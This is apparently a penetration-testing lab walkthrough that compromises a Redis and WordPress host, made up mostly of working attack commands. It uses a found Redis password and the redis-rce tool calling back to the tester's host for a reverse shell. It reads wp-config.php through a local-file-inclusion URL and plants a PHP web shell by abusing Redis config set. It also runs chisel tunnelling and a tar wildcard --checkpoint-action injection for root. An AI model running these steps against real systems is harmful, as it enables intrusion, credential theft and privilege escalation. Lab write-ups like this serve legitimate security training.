```
redis-cli -h 192.168.159.166
```
Then to authenticate:
```
AUTH Ready4Redis?
```

We are in.

# Failed
The version is 5.0.14:

Using this:
https://github.com/Ridter/redis-rce?source=post_page-----88a3e0e21f62--------------------------------

We can get a shell:
```
python3 redis-rce.py -r 192.168.159.166 -L 192.168.45.223 -a 'Ready4Redis?' -f exp.so
```


Then set up a listener:
```
rlwrap nc -nlvp 80
```

We get a shell

Now we can look for the wp-config file and get the database password:
```
cat /var/www/html/wp-config.php
```


Checking netstat:
```
netstat -antup
```

But could not execute anything so was a waste

**Can not proceed as we get a shell as redis user**
# Success

We can check the service files for redis using the LFI:
```
curl http://192.168.231.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/systemd/system/redis.service > redis.service
```
Now we can find the writeable directory:


Then write a shell.php:
```
redis-cli -h 192.168.231.166
```
```
AUTH Ready4Redis?
config set dir /opt/redis-files
config set dbfilename shell.php
set test '<?php system($_GET["cmd"]); ?>'
save
```
Now we have command execution:

We can get a shell now:


Now we can look for the wp-config file and get the database password:
```
cat /var/www/html/wp-config.php
```

Port forwarding:
Target:
```
$P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0
```
Kali:
```
chisel server --reverse --socks5 -p 8001
 ```

But we don't find anything in database after logging in.

We find a cron job after running linpeas:




Now we have tar with `*` which we can use to gain sudo access:
```
cd /var/www/html
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
nano payload.sh
chmod +x payload.sh
```
Now in payload.sh:

Now we get a shell in the listener:
```
sudo rlwrap nc -nlvp 80
```


